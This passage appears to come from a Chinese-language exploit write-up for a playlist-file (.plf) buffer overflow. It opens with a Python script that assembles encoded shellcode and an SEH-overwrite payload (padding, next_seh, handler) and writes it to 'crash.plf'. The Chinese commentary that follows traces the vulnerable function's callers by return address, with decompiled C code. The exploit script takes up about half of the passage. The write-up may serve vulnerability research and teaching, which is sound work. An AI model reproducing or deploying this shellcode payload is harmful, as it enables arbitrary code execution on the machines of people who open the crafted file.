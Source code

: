 ```python
shellcode += "\x4b\x30\x52\x42\x34\x4c\x4b\x43\x42\x46\x48\x54"
shellcode += "\x4f\x58\x37\x51\x5a\x51\x36\x36\x51\x4b\x4f\x4e"
shellcode += "\x4c\x37\x4c\x45\x31\x33\x4c\x35\x52\x46\x4c\x47"
shellcode += "\x50\x59\x51\x48\x4f\x44\x4d\x45\x51\x4f\x37\x4d"
shellcode += "\x32\x5a\x52\x46\x32\x56\x37\x4c\x4b\x56\x32\x42"
shellcode += "\x30\x4c\x4b\x50\x4a\x47\x4c\x4c\x4b\x30\x4c\x54"
shellcode += "\x51\x33\x48\x5a\x43\x51\x58\x35\x51\x48\x51\x50"
shellcode += "\x51\x4c\x4b\x31\x49\x51\x30\x53\x31\x49\x43\x4c"
shellcode += "\x4b\x51\x59\x45\x48\x5a\x43\x56\x5a\x50\x49\x4c"
shellcode += "\x4b\x37\x44\x4c\x4b\x53\x31\x48\x56\x36\x51\x4b"
shellcode += "\x4f\x4e\x4c\x39\x51\x48\x4f\x34\x4d\x53\x31\x59"
shellcode += "\x57\x36\x58\x4d\x30\x54\x35\x4b\x46\x45\x53\x53"
shellcode += "\x4d\x4b\x48\x37\x4b\x53\x4d\x57\x54\x32\x55\x4a"
shellcode += "\x44\x31\x48\x4c\x4b\x30\x58\x56\x44\x45\x51\x59"
shellcode += "\x43\x52\x46\x4c\x4b\x34\x4c\x30\x4b\x4c\x4b\x56"
shellcode += "\x38\x45\x4c\x45\x51\x59\x43\x4c\x4b\x55\x54\x4c"
shellcode += "\x4b\x33\x31\x58\x50\x4d\x59\x51\x54\x37\x54\x31"
shellcode += "\x34\x31\x4b\x51\x4b\x53\x51\x31\x49\x51\x4a\x46"
shellcode += "\x31\x4b\x4f\x4b\x50\x51\x4f\x31\x4f\x31\x4a\x4c"
shellcode += "\x4b\x52\x32\x5a\x4b\x4c\x4d\x51\x4d\x42\x4a\x33"
shellcode += "\x31\x4c\x4d\x4c\x45\x4e\x52\x55\x50\x53\x30\x43"
shellcode += "\x30\x50\x50\x45\x38\x56\x51\x4c\x4b\x32\x4f\x4b"
shellcode += "\x37\x4b\x4f\x49\x45\x4f\x4b\x4a\x50\x48\x35\x4f"
shellcode += "\x52\x30\x56\x33\x58\x59\x36\x4c\x55\x4f\x4d\x4d"
shellcode += "\x4d\x4b\x4f\x58\x55\x57\x4c\x44\x46\x53\x4c\x35"
shellcode += "\x5a\x4b\x30\x4b\x4b\x4d\x30\x33\x45\x53\x35\x4f"
shellcode += "\x4b\x37\x37\x35\x43\x42\x52\x42\x4f\x42\x4a\x45"
shellcode += "\x50\x46\x33\x4b\x4f\x49\x45\x43\x53\x35\x31\x52"
shellcode += "\x4c\x43\x53\x56\x4e\x33\x55\x32\x58\x52\x45\x53"
shellcode += "\x30\x41\x41"

payload = padding + next_seh + handler + shellcode + junk

with open("crash.plf", "w") as f:
    f.write(payload)
```

完美主义者总是喜欢刨根问题，经过调试后可以知道函数的相互调用关系，大致可以看出对文件内容做了哪些操作，漏洞函数的返回地址为`6400f04f`，在函数`sub_6400F030`中，其只是个wrapper函数，直接调用漏洞函数。更上一层的返回地址为`6400de40`，在函数`sub_6400DCC0`，其中还有一个do while循环的过程：

```c
  else
  {
    sub_6404677C(&v20);
    LOBYTE(v25) = 1;
    if ( sub_640467F1(pszPath, 0x4000, 0) )
    {
      v19 = (LPCSTR)off_64068DA8;
      v10 = *v3;
      v11 = *v3;
      v12 = (void (__thiscall **)(_DWORD, _DWORD, _DWORD, _DWORD, _DWORD))*v2[59];
      LOBYTE(v25) = 2;
      v13 = PathFindFileNameA(v11);
      (*v12)(v2[59], 1, 0, v13, v10);
      v14 = 1;
      if ( sub_640469D4(&v20, &v19) )
      {
        do
        {
          v15 = v19;
          v16 = (void (__thiscall **)(_DWORD, _DWORD, _DWORD, _DWORD, _DWORD))*v2[59];
          v17 = PathFindFileNameA(v19);
          (*v16)(v2[59], 1, v14++, v17, v15);
        }
```